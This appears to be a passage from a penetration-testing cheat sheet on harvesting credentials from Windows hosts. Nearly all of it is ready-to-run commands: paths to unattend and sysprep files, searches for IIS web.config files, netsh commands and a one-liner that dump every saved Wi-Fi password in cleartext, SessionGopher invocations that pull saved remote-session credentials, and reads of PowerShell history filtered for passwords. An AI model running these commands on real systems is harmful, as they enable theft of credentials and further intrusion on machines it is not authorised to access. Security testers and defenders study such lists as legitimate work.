 Unattend/Sysprep Files:

```
 c:\sysprep.inf
 c:\sysprep\sysprep.xml
 %WINDIR%\Panther\Unattend\Unattend*.xml
 %WINDIR%\Panther\Unattend*.xml
```

Credentials from Log Files:

```
 dir /s /b /p *access*.log* == *.log
```

Credentials from IIS Web Configuration:

```
 Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
 Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
 	
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
 C:\inetpub\wwwroot\web.config
```

Wireless Credentials:

```
 # 1. Find AP SSID
 netsh wlan show profile
 # 2. Get cleartext password
 netsh wlan show profile <SSID> key=clear
 # OR
 # Go hard and grab 'em all
 cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

Credentials stored in services (SessionGopher.ps1):

{% embed url="https://github.com/Arvanaghi/SessionGopher" %}

```
 # SessionGopher to grab PuTTY, WinSCP, FileZilla, SuperPuTTY, RDP
 # https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
 Import-Module path\to\SessionGopher.ps1;
 Invoke-SessionGopher -AllDomain -o
 Invoke-SessionGopher -AllDomain -u domain.com\adm\-arvanaghi -p s3cr3tP@ss
```

Creds from Powershell History:

```
 type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
 type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
 type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
 cat (Get-PSReadlineOption).HistorySavePath
 cat (Get-PSReadlineOption).HistorySavePath | sls passw
```
